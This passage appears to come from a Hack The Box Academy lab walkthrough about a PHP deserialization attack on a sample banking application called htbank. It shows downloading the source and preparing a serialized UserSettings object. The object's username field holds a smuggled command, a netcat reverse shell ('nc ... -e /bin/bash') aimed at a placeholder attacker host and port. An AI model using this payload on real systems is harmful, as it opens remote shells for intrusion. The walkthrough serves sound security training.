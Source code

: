 Students need to download [htbank-src.zip](https://academy.hackthebox.com/storage/modules/169/htbank-src.zip) and then unzip it:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/169/htbank-src.zip && unzip htbank-src.zip
```

```shell
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-rg6bn4h6fk]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/169/htbank-src.zip && unzip htbank-src.zip

--2022-11-14 10:48:35--  https://academy.hackthebox.com/storage/modules/169/htbank-src.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.20.126, 104.18.21.126, 2606:4700::6812:147e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.20.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12550668 (12M) [application/zip]
Saving to: ‘htbank-src.zip’

htbank-src.zip               100%[=============================================>]  11.97M  50.4MB/s    in 0.2s    

2022-11-14 10:48:35 (50.4 MB/s) - ‘htbank-src.zip’ saved [12550668/12550668]

Archive:  htbank-src.zip
   creating: htbank-clean/
   creating: htbank-clean/storage/
   <SNIP>
```

Subsequently, inside the `htbank-clean` directory, students need to create a file called `UserSettings.php` and copy the contents of `app/Helpers/UserSettings.php` into it:

Code: shell

```shell
touch UserSettings.php
cat app/Helpers/UserSettings.php > UserSettings.php
```

```shell
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ touch UserSettings.php
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ cat app/Helpers/UserSettings.php > UserSettings.php 
```

Then, in the same directory, students need to create a file called `exploit.php` and make its contents to generate a serialized `UserSettings` object with the username `"; nc -nv PWNIP PWNPO -e /bin/bash;#`, the email address `admin@htbank.com`, the `Bcrypt` hash of the plaintext `password` (students can either use the same hash `$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda` that was utilized in the section or use [bcrypt-generator](https://bcrypt-generator.com/) to generate one), and the default image `default.jpg`:
